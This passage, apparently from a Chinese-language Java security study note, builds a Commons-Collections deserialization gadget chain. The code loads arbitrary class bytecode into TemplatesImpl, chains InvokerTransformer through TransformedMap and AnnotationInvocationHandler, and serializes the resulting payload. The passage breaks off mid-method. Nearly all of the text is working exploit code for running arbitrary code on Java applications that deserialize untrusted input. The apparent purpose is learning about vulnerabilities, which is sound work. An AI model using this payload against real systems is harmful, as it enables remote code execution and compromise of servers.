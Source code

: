 成功弹出计算器，接下来加上剩下的部分：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class LazyMap_TemplateImpl {
    private static void setFiledValue(Object obj, String fieldName, Object fieldValue) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, fieldValue);
    }

    public static void main(String[] args) throws Exception{
        byte[] codes = Files.readAllBytes(Paths.get("E:\\研究生\\JavaSec\\code\\target\\classes\\Calc.class"));
        byte[][] _bytecodes = new byte[][] {codes};
        TemplatesImpl templates = new TemplatesImpl();
        setFiledValue(templates, "_bytecodes", _bytecodes);
        setFiledValue(templates, "_name", "whatever");
        setFiledValue(templates, "_tfactory", new TransformerFactoryImpl());
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer",null,null)
        };
        ChainedTransformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value","Troy3e");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);


        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);
        Object obj = constructor.newInstance(Retention.class,outerMap);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(obj);
        oos.close();

        System.out.println(barr);
```